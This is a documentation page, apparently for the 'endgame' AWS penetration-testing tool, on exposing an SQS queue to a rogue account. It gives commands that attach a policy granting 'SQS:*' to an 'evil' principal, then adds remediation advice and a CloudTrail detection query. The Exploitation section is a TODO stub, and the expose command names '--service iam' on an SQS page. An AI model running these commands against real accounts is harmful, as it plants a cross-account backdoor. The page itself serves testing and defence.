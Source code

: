 # SQS Queues

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* To verify that the SQS queue has been shared with a rogue user, run the following from the victim account:

```bash
export QUEUE_URL=(`aws sqs get-queue-url --queue-name test-resource-exposure | jq -r '.QueueUrl'`)

aws sqs get-queue-attributes --queue-url $QUEUE_URL --attribute-names Policy
```

* Observe that the contents match the example shown below.

## Example

The policy below allows the Evil Principal's account ID (`999988887777` access to `sqs:*` to the victim resource (`arn:aws:sqs:us-east-1:111122223333:test-resource-exposure`), indicating a successful compromise.


```json
{
    "Attributes": {
        "Policy": "{\"Version\":\"2008-10-17\",\"Id\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure/SQSDefaultPolicy\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"SQS:*\",\"Resource\":\"arn:aws:sqs:us-east-1:111122223333:test-resource-exposure\"}]}"
    }
}

```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SQS Queues are only shared with trusted accounts, and that the trusted accounts truly need access to the SQS Queue.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  SQS Queues. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SQS Queues**: Tightly control access to the following IAM actions:
  - [sqs:AddPermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_AddPermission.html): _Adds a permission to a queue for a specific principal._
  - [sqs:RemovePermission](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_RemovePermission.html): _Revokes any permissions in the queue policy that matches the specified Label parameter._
  - [sqs:GetQueueAttributes](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueAttributes.html): _Gets attributes for the specified queue. This includes retrieving the list of principals who are authorized to access the queue._
  - [sqs:GetQueueUrl](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueUrl.html): _Returns the URL of an existing queue._
  - [sqs:ListQueues](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_ListQueues.html): _Returns a list of your queues._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='sqs.amazonaws.com' AND (eventName='AddPermission' or eventName='RemovePermission')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws sqs add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sqs/add-permission.html)
* [aws sqs get-queue-attributes](https://docs.aws.amazon.com/cli/latest/reference/sqs/get-queue-attributes.html)
